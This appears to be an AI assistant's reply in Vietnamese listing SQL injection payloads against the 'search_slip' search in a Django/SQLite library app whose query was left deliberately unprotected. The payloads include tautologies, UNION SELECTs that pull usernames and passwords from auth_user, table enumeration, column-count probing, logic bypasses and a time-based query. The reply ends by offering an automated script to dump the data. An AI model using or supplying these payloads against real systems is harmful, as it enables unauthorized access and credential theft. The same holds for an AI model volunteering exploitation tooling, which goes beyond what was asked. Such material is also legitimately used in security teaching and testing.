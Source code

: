Dưới đây là **danh sách đầy đủ các payload SQL Injection** bạn có thể thử với chức năng `search_slip` đã chỉnh sửa ở trên (truy vấn SQL thô, không được bảo vệ). Mục tiêu của các payload này là **đọc thông tin của các phiếu mượn mà không cần là librarian**, thậm chí thực thi các truy vấn độc hại nếu database cho phép.

---

## ✅ 1. **Payload cơ bản**
```sql
' OR 1=1 --
```
✔ Trả về toàn bộ `borrow_borrowslip`

```sql
' OR 'a'='a --
```

```sql
' OR ''='' --
```

---

## ✅ 2. **Payload để liệt kê thông tin người dùng**
(Nếu có `JOIN` hoặc hiển thị `username`, `email`...)

```sql
' UNION SELECT id, username, password, email, 1, 1, 1 FROM auth_user --
```

---

## ✅ 3. **Tìm tên bảng (dành cho SQLite)**
```sql
' UNION SELECT name, '', '', '', '', '', '', '' FROM sqlite_master WHERE type='table' --
```

---

## ✅ 4. **Đọc dữ liệu từ bảng `auth_user`**
(Nếu số cột khớp với `borrow_borrowslip`)

```sql
' UNION SELECT id, username, '', '', '', '', '', '' FROM auth_user --
```

---

## ✅ 5. **Tấn công logic (bypass quyền user thường)**
```sql
' OR user_id IS NOT NULL --
```

```sql
' OR user_id IN (SELECT id FROM auth_user) --
```

---

## ✅ 6. **Gây lỗi để dò cấu trúc**
```sql
' AND 1=0 UNION SELECT NULL --
```

```sql
' AND 1=0 UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL --
```

✔ Dò số lượng cột thông qua lỗi `OperationalError: SELECTs to the left and right of UNION do not have the same number of result columns`

---

## ✅ 7. **SQLite version (nếu được in ra)**
```sql
' UNION SELECT sqlite_version(), '', '', '', '', '', '', '' --
```

---

## ✅ 8. **Tấn công bằng kiểu thời gian (time-based inference)**
SQLite không có `SLEEP()` như MySQL, nhưng bạn có thể dùng truy vấn nặng để "delay" phản hồi (trong thực tế, hiệu quả hạn chế):

```sql
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master AS t2, sqlite_master AS t3) > 0 --
```

---

## ✅ 9. **Payload phá vỡ logic truy vấn**
```sql
' AND 1=2 --
```

```sql
' HAVING 1=1 --
```

---

## ✅ 10. **Payload khai thác kiểu dữ liệu boolean**
```sql
' OR submitted=1 --
```

```sql
' OR is_borrowed=1 --
```

---

## ✅ Kết hợp với encode (URL-encoded)
Khi gửi từ trình duyệt:

```http
?q_slip=%27%20OR%201%3D1%20--%20
```

---

## ❗ Ghi chú kỹ thuật:

- Vì bạn dùng **SQLite** (`sqlite3` là mặc định trong Django nếu chưa cấu hình), cú pháp khác so với MySQL/PostgreSQL.
- SQLite không hỗ trợ `LIMIT` trong `UNION SELECT` nếu có `ORDER BY` ngoài.
- Không có `@@version`, `information_schema`, `sleep()` như MySQL.

---

## 📌 Gợi ý khai thác cụ thể:
Nếu bạn có template đang render `slip.user_id` hoặc có `JOIN` với `auth_user`, payload sau giúp **xem thông tin user khác**:

```sql
' UNION SELECT id, username, '', '', '', '', '', '' FROM auth_user --
```

---

Nếu bạn cần mình **viết script tự động khai thác** các payload trên để dump dữ liệu hoặc tạo công cụ kiểm tra, mình có thể hỗ trợ thêm. Bạn muốn dùng Python hay Burp Suite Repeater?